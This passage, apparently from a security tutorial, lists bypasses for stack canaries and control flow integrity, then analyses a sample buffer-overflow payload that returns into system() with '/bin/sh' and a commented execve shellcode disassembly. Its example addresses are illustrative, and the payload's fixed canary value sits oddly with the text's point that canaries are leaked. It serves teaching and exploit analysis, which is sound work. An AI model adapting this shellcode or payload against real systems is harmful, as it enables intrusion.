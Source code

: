 3. **Stack canaries**:
   - **Mitigation**: Values checked before function returns
   - **Bypass techniques**:
     - Information leaks to read the canary value
     - Direct overwrite of return address (in some cases)
     - Attacking other memory corruption vectors

4. **Control Flow Integrity (CFI)**:
   - **Mitigation**: Ensures control flow follows valid paths
   - **Bypass techniques**:
     - Data-only attacks that don't alter control flow
     - Attacking the CFI implementation itself
     - Finding valid but unintended control flow paths

### Exploit Analysis

Examining existing exploits to understand attack techniques:

#### Reverse Engineering Exploits

Deconstructing exploit code to understand its functionality:

```python
# Example: Analyzing a Python exploit script

# Original exploit code
def generate_exploit():
    payload = b"A" * 0x28
    payload += p32(0xdeadbeef)  # Overwrite canary
    payload += p32(0x41414141)  # Overwrite saved EBP
    payload += p32(0x08049a21)  # Return address: system()
    payload += p32(0x08049a45)  # Return after system
    payload += p32(0x0804b0e0)  # Address of "/bin/sh"
    return payload

# Analysis of the exploit
# 1. Buffer overflow with 0x28 (40) bytes of padding
# 2. Overwrites stack canary with 0xdeadbeef
# 3. Overwrites saved EBP with 0x41414141 ("AAAA")
# 4. Redirects execution to system() at 0x08049a21
# 5. Sets up return address after system() call
# 6. Passes pointer to "/bin/sh" string as argument
```

#### Shellcode Analysis

Understanding the payload delivered by exploits:

```assembly
; Example x86 shellcode for execve("/bin/sh", NULL, NULL)

; Disassembly of shellcode
00000000  31C0              xor eax, eax        ; Zero out EAX
00000002  50                push eax            ; Push NULL terminator
00000003  68 2F2F7368       push 0x68732f2f     ; Push "//sh"
00000008  68 2F62696E       push 0x6e69622f     ; Push "/bin"
0000000D  89E3              mov ebx, esp        ; EBX = pointer to "/bin//sh"
0000000F  50                push eax            ; Push NULL (envp)
00000010  53                push ebx            ; Push pointer to "/bin//sh"
00000011  89E1              mov ecx, esp        ; ECX = argv
00000013  B0 0B             mov al, 0xb         ; EAX = 11 (execve syscall)
00000015  CD80              int 0x80            ; Execute syscall
```
